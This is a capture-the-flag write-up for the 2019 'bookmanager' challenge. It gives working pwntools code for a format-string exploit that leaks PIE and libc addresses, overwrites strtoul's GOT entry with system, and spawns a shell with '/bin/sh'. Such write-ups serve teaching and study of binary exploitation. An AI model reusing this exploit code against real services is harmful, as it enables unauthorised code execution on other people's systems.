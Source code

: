 # bookmanager writeup

This challenge presents us with a book management service. It allows us to
add/delete/list/read books, using the following user friendly terminal UI:

```
Welcome to the Bookmanager 4.7

What would you like to do?
0) list books
1) read book
2) add book
3) delete book
4) exit
```

As a bonus, we are also given the `libc` library used by the server.

At the surface, this looks like a run-of-the-mill heap exploitation challenge,
where you need to overflow from one book into another, or perhaps delete a book
and read it after. This turned out not to be the case, as reverse engineering
the binary showed no obvious errors relating to overflows and use-after-free.

After some time, I spotted the problem: when reading a book, the content is
passed as the first argument to printf, which allows a classic format string
exploit. The plan of attack is to overwrite a GOT entry with system, and then making sure that the corresponding function is called with the string "/bin/sh".

But first we need to solve some technical problems:

## 1) Create a script to handle the connection and perform the exploit

We can do that using python with the `pwntools` library, which allows us to
write functions like this:

```
def del_book(pos):
    p.sendline('3')
    p.recvuntil('> ')
    p.sendline(str(pos))
    p.recvuntil('> ')
```

Automating this is important to do early on as you often need to navigate the
menu multiple times, and it makes it much easier to test the logic separately.


## 2) Find the binary base address

Before writing any binary exploit, it is important to run `checksec` or
similar:

```
[\*] 'aarhus-ctf-2019/bookmanager/bookmanager'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can see that it has basically all modern mitigations. Canaries and NX aren't
important in this case, but we need to overcome PIE (Position Independent
Executable) before proceeding further. We do that by leaking up the stack using
the format string until we find a known base pointer:

```
add_book(0, 'author', 'title', 8, "%10$llu")
base_addr = int(read_book(0)) - 6323
```

## 3) Find the libc base address

Next, we need to leak a GOT entry of some `libc` function, and use it to find
the libc base address. To do this, we create a function that adds a book
with the address we want to leak as author and the format string `%146$s` as
content, reads it to trigger the format string and then deletes the book again.
The stack offset was determined by trial and error

```
addr_offset = 146
def leak(addr):
    if '\n' in p64(addr):
        print enhex(p64(addr))
        return None
    fmt_string = "%{}$s".format(addr_offset)
    add_book(7, p64(addr), 'title', len(fmt_string), fmt_string)
    data = read_book(7)
    del_book(7)
    return data + '\x00'
```

By looking up symbols in the provided `libc` file with `readelf -s
libc-2.24.so` we can get known offsets:

```
$ readelf -s libc-2.24.so | grep fgets@
   753: 0000000000067340   408 FUNC    WEAK   DEFAULT   13 fgets@@GLIBC_2.2.5
$ readelf -s libc-2.24.so | grep system
  1353: 000000000003f480    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

Together, they allow us to find the base address of `libc`, and thus the address of `system`:

```
# Leak fgets address
fgets_leak = leak(fgets_got).ljust(8, '\x00')
fgets_addr = u64(fgets_leak[:8])

# Known offsets
fgets_offset = 0x67340
system_offset = 0x3f480

# Calculate base + system addresses
libc_base = fgets_addr - fgets_offset
system_addr = system_offset + libc_base
```

## 4) Figure out which function to overwrite

This took me far too long for no real reason: the only one that makes sense
is `strtoul`, which is the only function from libc which is called with user
controlled input as first argument.

## 5) Construct a "write-what-where"

This is the tricky part of the exploit. In order to reuse some work from
before, we reuse the same trick as before with an address in the book title
and the format string in book contents. This gives us a problem, however. We
want to construct the new `system` pointer in `strtoul`'s GOT entry 1 byte at a
time using `%hhn`, but we only have 64 bytes available in the title. Instead we
write 2 bytes at a time with `%hn`, but since we write all 8 bytes at once we
need to keep track of how much we have already written. Since math is hard We
wrote a bad algorithm that does the job:

```
# Place pointer to strtoul_got at known location
add_book(7, ''.join([p64(strtoul_got+i) for i in range(0,8,2)]), 'title', 10, 'abcd')

# Construct format string
progress = log.progress("Creating format string")
fmt_string = ''
written = 0
for i in range(0,4):
    word = p64(system_addr)[2*i:2*i+2]
    to_write = u16(word)

    value = 8
    written += 8

    while (written % 2**16) != to_write:
        value += 1
        written += 1

    fmt_string += "%.{}x%{}$hn".format(value, addr_offset+i)

```

## 6) Shell!

Now we just need to trigger the format string and send the `/bin/sh` string when the next menu appears:

```
# Trigger format string
add_book(6, 'author', 'title', len(fmt_string), fmt_string)
read_book(6)

# Send /bin/sh to strtoul (aka system)
p.clean()
p.sendline('/bin/sh\0')

# Shell!
p.interactive()
```

Flag: CTF{YoU_411_5h0uLd_r3aD_mOr3_b00k5_(Or_p4P3R5_:)}

---
*Writeup by Kristoffer from ./dirtyc0w*
